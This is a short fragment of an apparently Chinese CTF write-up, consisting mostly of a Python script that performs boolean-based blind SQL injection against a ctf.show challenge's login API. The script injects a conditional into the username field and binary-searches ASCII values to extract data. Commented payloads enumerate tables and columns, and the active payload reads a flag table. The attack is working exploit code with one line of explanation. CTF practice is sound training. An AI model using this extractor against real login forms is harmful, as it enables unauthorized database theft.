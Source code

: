 ```
```

![image-20250209225336696](../assets/image-20250209225336696.png)

所以这题依旧可以进行布尔盲注

```python
# @Author:Y4tacker
import requests

url = "http://eb2e57dd-6c44-4140-9052-f549f647caa9.challenge.ctf.show/api/"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_fl0g"
        data = {
            'username': f"admin' and if(ascii(substr(({payload}),{i},1))>{mid},1,2)='1",
            'password': '1'
        }

        r = requests.post(url,data=data)
        if "密码错误"  == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)



```


